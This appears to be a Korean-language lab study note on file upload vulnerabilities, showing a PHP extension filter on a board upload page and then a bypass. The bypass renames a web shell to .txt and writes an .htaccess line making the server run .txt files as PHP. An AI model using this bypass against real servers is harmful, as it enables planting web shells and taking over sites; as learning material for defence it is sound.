     > 확장자에 대한 허용/거부 목록을 작성하여 검증 수행

  - 파일이 업로드 되는 디렉터리의 권한을 적절하게 설정해야 함

- 검증해야 할 확장자

  ![화면 캡처 2022-11-02 163322](../../assets/img/화면 캡처 2022-11-02 163322.png)

- 확장자를 필터링

  - 파일명 안에 .html , .php가 있으면 업로드 불가

  - board/board_write.php > 등록  >board/board_write_ok.php

    ```
     if(preg_match("/.html|.php|.htm/i",$f_name))  
                     {
                     echo "<script>alert('해당 확장자를 가진 파일은 업로드 불가능 합니다.');
                   history.back();
                    </script>";
                     exit;
                   }
    ```

    ![화면 캡처 2022-11-02 170332](../../assets/img/화면 캡처 2022-11-02 170332.png)

  - upload 차단되는지 테스트

    ![화면 캡처 2022-11-02 170041](../../assets/img/화면 캡처 2022-11-02 170041.png)

    ![화면 캡처 2022-11-02 170217](../../assets/img/화면 캡처 2022-11-02 170217.png)

- 확장자 필터링 우회

  - htaccess 를 이용하여 우회

  - webshell.php 를 복사하여 webshell.txt 로 변경

    ![화면 캡처 2022-11-02 171919](../../assets/img/화면 캡처 2022-11-02 171919.png)

  - .htaccess 파일 생성

    ```
    cmd
    
    C:\Documents and Settings\ktest>cd c:\
    
    C:\>copy con .htaccess
    Addtype application/x-httpd-php .txt
    ^Z
            1개 파일이 복사되었습니다.
    
    C:\>type .htaccess
    Addtype application/x-httpd-php .txt  --> txt 파일을 php처럼 해석하게 해준다 
    ```

    ![화면 캡처 2022-11-02 173019](../../assets/img/화면 캡처 2022-11-02 173019.png)
